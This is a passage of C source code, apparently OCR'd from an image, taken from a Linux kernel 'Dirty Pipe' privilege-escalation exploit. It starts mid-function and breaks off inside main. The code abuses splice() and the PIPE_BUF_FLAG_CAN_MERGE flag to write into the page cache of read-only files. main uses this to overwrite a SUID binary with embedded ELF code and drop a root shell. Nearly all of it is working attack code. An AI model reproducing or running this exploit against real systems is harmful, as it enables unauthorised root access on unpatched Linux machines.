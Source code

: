 ````
		return -1;
	}

	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("splice failed");
		return -1;
	}
	if (nbytes == 0) {
		fprintf(stderr, "short splice\n");
		return -1;
	}

	/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, len);
	if (nbytes < 0) {
		perror("write failed");
		return -1;
	}
	if ((size_t)nbytes < len) {
		fprintf(stderr, "short write\n");
		return -1;
	}

	close(fd);

	return 0;
}

int main(int argc, char **argv) {
	if (argc != 2) {
		fprintf(stderr, "Usage: %s SUID\n", argv[0]);
		return EXIT_FAILURE;
	}

	char *path = argv[1];
	uint8_t *data = elfcode;

	int fd = open(path, O_RDONLY);
	uint8_t *orig_bytes = malloc(sizeof(elfcode));
	lseek(fd, 1, SEEK_SET);
	read(fd, orig_bytes, sizeof(elfcode));
	close(fd);

	printf("[+] hijacking suid binary..\n");
	if (hax(path, 1, elfcode, sizeof(elfcode)) != 0) {
		printf("[~] failed\n");
		return EXIT_FAILURE;
	}

	printf("[+] dropping suid shell..\n");
````
